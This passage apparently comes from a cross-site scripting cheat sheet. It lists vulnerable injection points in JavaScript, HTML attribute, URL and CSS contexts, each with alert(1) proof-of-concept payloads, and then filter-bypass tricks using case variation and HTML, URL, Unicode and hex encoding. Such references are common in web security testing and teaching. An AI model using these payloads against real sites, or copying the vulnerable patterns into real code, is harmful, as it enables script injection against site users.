 ### JavaScript Context
```html
<!-- Vulnerable -->
<script>var name = 'USER_INPUT';</script>

<!-- Payloads -->
'; alert(1); //
'; alert(1); var x='
'-alert(1)-'
```

### HTML Attribute Context
```html
<!-- Vulnerable -->
<input value="USER_INPUT">

<!-- Payloads -->
" onload="alert(1)
" autofocus onfocus="alert(1)
```

### URL Context
```html
<!-- Vulnerable -->
<a href="USER_INPUT">Click</a>

<!-- Payloads -->
javascript:alert(1)
data:text/html,<script>alert(1)</script>
```

### CSS Context
```html
<!-- Vulnerable -->
<style>body { background: USER_INPUT; }</style>

<!-- Payloads -->
}body{background:url('javascript:alert(1)');}
expression(alert(1))
```

## Filter Bypass Techniques

### Case Variation
```html
<ScRiPt>alert(1)</sCrIpT>
<iMg sRc=x OnErRoR=alert(1)>
```

### Encoding
```html
<!-- HTML Entity Encoding -->
&lt;script&gt;alert(1)&lt;/script&gt;

<!-- URL Encoding -->
%3Cscript%3Ealert(1)%3C/script%3E

<!-- Unicode Encoding -->
\u003cscript\u003ealert(1)\u003c/script\u003e

<!-- Hex Encoding -->
<img src=x onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
```
